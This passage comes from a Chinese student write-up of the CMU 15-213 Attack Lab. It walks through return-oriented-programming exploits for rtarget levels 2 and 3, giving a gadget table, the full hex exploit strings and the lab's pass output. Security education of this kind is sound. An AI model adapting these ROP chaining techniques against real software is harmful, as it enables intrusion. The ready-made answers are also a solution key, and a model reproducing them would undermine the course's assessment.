    $ cat rtarget_lv2.txt
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    ab 19 40 00 00 00 00 00 /* popq %rax nop ret */
    fa 97 b9 59 00 00 00 00 /* cookie */
    c5 19 40 00 00 00 00 00 /* mov %rax, %rdi nop ret */
    ec 17 40 00 00 00 00 00 /* return to touch2 */
    $ ./hex2raw < rtarget_lv2.txt | ./rtarget -q
    Cookie: 0x59b997fa
    Type string:Touch2!: You called touch2(0x59b997fa)
    Valid solution for level 2 with target rtarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00

可以看到，我们构建的字符串攻击成功，Level 2完成！
至此，按照实验的要求，我们已经完成了95%的内容。但95%肯定不能满足，继续 ``rtarget`` Level 3的攻击！

Level 3
''''''''

**实验说明：**

同上， ``rtarget`` Level 3的要求同 ``ctarget`` 一致，即在重定向到 ``touch3`` 之前传入cookie字符串的指针参数。
不过这次我们要用返回导向编程的方式攻击。提示一共需要8组攻击套件。

**攻击思路：**

一开始看到题目，好像并没有什么特别明确的思路。 回忆 ``ctarget`` Level 3中，我们是在栈上构建的字符串中包含了cookie的字符串，并在栈上执行把cookie字符串的地址赋给 ``%rdi`` 的汇编指令。
同样，这种做法因为 ``rtarget`` 的栈不可执行而无法实现。不过既然返回导向编程攻击的方式是利用 ``start_farm`` ~ ``end_farm`` 之间的函数来构造我们的攻击套件库，我们可先根据提供的指令编码表，将所有的攻击指令套件汇总，如下表所示。

+----------------+----------+-----------------+------------------------------+
| Function name  | Address  | Encoding        | Instruction                  |
+================+==========+=================+==============================+
| addval_219     | 0x4019ab | 58 90 c3        | popq %rax nop ret            |
+----------------+----------+-----------------+------------------------------+
| setval_426     | 0x4019c5 | 48 89 c7 90 c3  | movq %rax, %rdi nop ret      |
+----------------+----------+-----------------+------------------------------+
| getval_481     | 0x4019dd | 89 c2 90 c3     | movl %eax, %edx nop ret      |
+----------------+----------+-----------------+------------------------------+
| addval_190     | 0x401a06 | 48 89 e0 c3     | movq %rsp, %rax ret          |
+----------------+----------+-----------------+------------------------------+
| addval_436     | 0x401a13 | 89 ce 90 90 c3  | movl %ecx, %esi nop nop ret  |
+----------------+----------+-----------------+------------------------------+
| addval_187     | 0x401a27 | 89 ce 38 c0 c3  | movl %ecx, %esi cmpb %al ret |
+----------------+----------+-----------------+------------------------------+
| getval_159     | 0x401a34 | 89 d1 38 c9 c3  | movl %edx, %ecx cmpb %cl ret |
+----------------+----------+-----------------+------------------------------+
| addval_487     | 0x401a42 | 89 c2 84 c0 c3  | movl %eax, %edx testb %al ret|
+----------------+----------+-----------------+------------------------------+
| getval_311     | 0x401a69 | 89 d1 08 db c3  | movl %edx, %ecx orb %bl ret  |
+----------------+----------+-----------------+------------------------------+
| addval_358     | 0x401a86 | 89 e0 90 c3     | movl %esp, %eax nop ret      |
+----------------+----------+-----------------+------------------------------+
| setval_350     | 0x401aad | 48 89 e0 90 c3  | movq %rsp, %rax nop ret      |
+----------------+----------+-----------------+------------------------------+
| add_xy         | 0x4019d6 | 48 8d 94 37 43  | lea (%rdi, %rsi, 1),%rax retq|
+----------------+----------+-----------------+------------------------------+


看到指令 ``lea (%rdi, %rsi, 1),%rax`` 的直觉是基地址加上偏移量寻址。
再倒推 ``%rdi`` 的赋值过程： ``movq %rax, %rdi`` <-- ``movq %rsp, %rax`` 或 ``popq %rax``。
同理，倒推 ``%rsi`` 的赋值过程： ``movl %ecx, %esi`` <-- ``movl %edx, %ecx`` <-- ``mov %eax, %edx`` <-- ``movq %rsp, %rax`` 或 ``popq %rax``。
由此，我们可以有一个初步的思路，即将 ``%rdi`` 设为栈的基准地址， ``%rsi`` 设为字符串到基准地址的偏移量，偏移量的地址可通过 ``popq %rax`` 弹出写入栈中的数值。
从构建 ``touch3`` 的返回地址一步步反推，得到的栈的构成图如下图所示：

.. image:: ./../_images/rtarget_lv3.PNG


按照图中的顺序构建我们的字符串并运行 ``rtarget`` ：

.. code-block:: console

    $ cat rtarget_lv3.txt
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    00 00 00 00 00 00 00 00 /* junk */
    06 1a 40 00 00 00 00 00 /* movq %rsp, %rax ret */
    c5 19 40 00 00 00 00 00 /* movq %rax, %rdi ret */
    ab 19 40 00 00 00 00 00 /* popq %rax nop ret */
    48 00 00 00 00 00 00 00 /* index to string */
    42 1a 40 00 00 00 00 00 /* movl %eax, %edx testb %al ret */
    69 1a 40 00 00 00 00 00 /* movl %edx, %ecx orb %bl ret */
    27 1a 40 00 00 00 00 00 /* movl %ecx, %esi cmpb %al ret */
    d6 19 40 00 00 00 00 00 /* lea (%rdi, %rsi, 1),%rax ret */
    c5 19 40 00 00 00 00 00 /* movq %rax, %rdi nop ret */
    fa 18 40 00 00 00 00 00 /* entry for function touch3 */
    35 39 62 39 39 37 66 61  /* string 59b997fa */
    $ ./hex2raw < rtarget_lv3.txt | ./rtarget -q
    Cookie: 0x59b997fa
    Type string:Touch3!: You called touch3("59b997fa")
    Valid solution for level 3 with target rtarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 42 1A 40 00 00 00 00 00 69 1A 40 00 00 00 00 00 27 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61

``rtarget`` Level 3攻击成功！

0x04. 总结和评价
----------------

这个实验从开始做到完成实验报告，断断续续地花了一个多月。 ``rtarget`` Level 3第一遍做地时候“偷看到了”了别人的思路，尤其是指令 ``lea (%rdi, %rsi, 1),%rax`` 的关键作用。
总的来说，这个实验帮助我深入地了解了缓冲区溢出攻击的原理和应用，浅浅地体会了一把黑客的感觉:)




